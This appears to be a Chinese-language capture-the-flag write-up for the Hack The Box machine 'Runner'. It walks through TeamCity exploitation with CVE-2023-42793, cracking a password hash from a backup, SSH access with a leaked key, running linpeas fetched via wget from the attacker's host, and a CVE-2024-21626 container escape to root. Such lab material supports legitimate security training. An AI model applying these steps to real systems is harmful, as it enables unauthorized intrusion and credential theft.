








###### tags: `Hack the box` `HTB` `Medium` `Linux`

# Runner
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.113.69 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.113.69:22
Open 10.129.113.69:80
Open 10.129.113.69:8000

PORT     STATE SERVICE     REASON  VERSION
22/tcp   open  ssh         syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp   open  http        syn-ack nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://runner.htb/
8000/tcp open  nagios-nsca syn-ack Nagios NSCA
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

掃子網
```
┌──(kali㉿kali)-[~/htb]
└─$ ffuf -u http://runner.htb/ -H "Host:FUZZ.runner.htb" -w /home/kali/SecLists/Discovery/DNS/shubs-subdomains.txt -fw 4

teamcity                [Status: 401, Size: 66, Words: 8, Lines: 2, Duration: 653ms]
:: Progress: [484699/484699] :: Job [1/1] :: 143 req/sec :: Duration: [1:00:58] :: Errors: 0 ::
```

前往`http://teamcity.runner.htb`，有一個`Teamcity`的登入畫面，google可找到[CVE-2023-42793](https://github.com/Zyad-Elsayed/CVE-2023-42793)，先新增admin帳號再嘗試進行RCE
```
┌──(kali㉿kali)-[~/htb/CVE-2023-42793]
└─$ pip3 install -r requirements.txt

┌──(kali㉿kali)-[~/htb/CVE-2023-42793]
└─$ python3 exploit.py -u http://teamcity.runner.htb

=====================================================
*                                                   *
*              CVE-2023-42793                       *
*        TeamCity Admin Account Creation            *
*                                                   *
=====================================================

Token: eyJ0eXAiOiAiVENWMiJ9.UV9ZNnJCUEN4RVJJWEtlRFAyclBxM1gzbUk0.NDllMDdlYWYtNzk4MC00MDZkLThjZjYtNDQwMzEyODcwNDMy
Token saved to ./token
Successfully exploited!
URL: http://teamcity.runner.htb
Username: admin.1lbG
Password: Password@123
```

接著嘗試使用`rce.py`失敗，只好先登入進去看看有沒有東西，後來找到`Administration`的`start Backup`點點看



接著點他可以下載下來看，最後在`TeamCity_Backup_20240823_062205/database_dump/users`裡面找到帳號的hash
```
ID, USERNAME, PASSWORD, NAME, EMAIL, LAST_LOGIN_TIMESTAMP, ALGORITHM
1, admin, $2a$07$neV5T/BlEDiMQUs.gM1p4uYl8xl8kvNUo4/8Aja2sAWHAQLWqufye, John, john@runner.htb, 1724393504958, BCRYPT
2, matthew, $2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em, Matthew, matthew@runner.htb, 1709150421438, BCRYPT
11, admin.1lbg, $2a$07$aPH3FaJt/064Dg7eiYYFtuuJf4F21CO5pr/IsR3VCeJym3hRmCZxC, , admin.1lbG@lol.omg, 1724393643967, BCRYPT
```

用`john`破可以破到`matthew`的密碼
```
┌──(kali㉿kali)-[~/htb]
└─$ john matthew --wordlist=/home/kali/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 128 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
piper123         (?) 
```

在`TeamCity_Backup_20240823_062205/config/projects/AllProjects/pluginData/ssh_keys/`可以得到`id_rsa`檔，但用`matthew`無法登入，查看網頁`http://teamcity.runner.htb/admin/admin.html?item=users`可以看到`admin`是`john`登登看



發現可以成功登入，在`/home/john`可以得user.txt
```
┌──(kali㉿kali)-[~/htb]
└─$ chmod 600 id_rsa 

┌──(kali㉿kali)-[~/htb]
└─$ ssh -i id_rsa john@10.129.217.18

john@runner:~$ cat user.txt
b101fe976e5215c5219742d493f22250
```

用linpeas
```
john@runner:/tmp$ wget 10.10.14.29/linpeas.sh
john@runner:/tmp$ chmod +x linpeas.sh
john@runner:/tmp$ ./linpeas.sh

╔══════════╣ Hostname, hosts and DNS
runner                                                                                                                                      
127.0.0.1 localhost
127.0.1.1 runner runner.htb teamcity.runner.htb portainer-administration.runner.htb

::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

nameserver 127.0.0.53
options edns0 trust-ad
search .

╔══════════╣ Unmounted file-system?
╚ Check if you can mount umounted devices                                                                                                   
/dev/sda2 / ext4 defaults 0 1                                                                                                               
/dev/sda3 none swap sw 0 0
proc /proc proc remount,rw,hidepid=2,noexec,nosuid,nodev 0 0
```

將`portainer-administration.runner.htb`加入`/etc/hosts`
```
┌──(kali㉿kali)-[~/htb]
└─$ sudo nano /etc/hosts 

10.129.41.58    runner.htb
10.129.41.58    teamcity.runner.htb
10.129.41.58    portainer-administration.runner.htb
```

並且可以用`matthew/piper123`登入

在前面的linpeas.sh有找到unmount去google之後可得到[CVE-2024-21626](https://nitroc.org/en/posts/cve-2024-21626-illustrated/?source=post_page-----103250a9acd3--------------------------------#how-docker-engine-calls-runc)

新增一個container



選擇`teamcity:latest`作為image



`Working Dir`加上`/proc/self/fd/8`然後選`Deploy`



點進container選`console`



選以`root` connect



之後在`../../../root/root.txt`可以得到root.txt




```
root@6189aac7fab5:.# cat ../../../root/root.txt
job-working-directory: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
4f26c314682edcb6ac131629da13edf1
root@6189aac7fab5:.#
```